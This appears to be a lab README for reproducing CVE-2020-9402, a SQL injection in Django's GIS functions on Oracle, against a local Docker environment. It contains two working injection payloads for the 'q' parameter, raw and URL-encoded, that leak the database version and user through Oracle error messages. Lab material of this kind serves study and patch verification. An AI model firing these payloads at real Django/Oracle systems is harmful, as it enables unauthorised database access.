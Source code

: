 # Django GIS functions and aggregates on Oracle SQL Injection Vulnerability (CVE-2020-9402)

[中文版本(Chinese version)](README.zh-cn.md)

Django released a security update on March 4, 2020, which fixes a SQL injection vulnerability in the GIS functions and aggregates.

Reference link:

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

The vulnerability requires the developer to use JSONField/HStoreField; moreover, the field name of the queryset can be controlled. Django's built-in application Django-Admin is affected, which gives us an easy way to reproduce the vulnerability.

## Start Vulnerability Application

Compile and start a vulnerable Django 3.0.3 by executing the following command:

```
docker compose build
docker compose up -d
```

After the environment is started, you can see the home page of Django at `http://your-ip:8000`.

## Vulnerability Reproduce

First, assess the website `http://your-ip:8000/vuln/`

Then add `20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1` to the GET para,eter, where q is the quertset:

http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
You can see that the bracket has been injected successfully, and the SQL statement reports an error:

![](1.png)

Or you can assess the other website `http://your-ip:8000/vuln2/`, and add `0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --` to the GET para,eter, where q is the quertset:

http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--

You can also see that the SQL statement reports an error:

![](2.png)

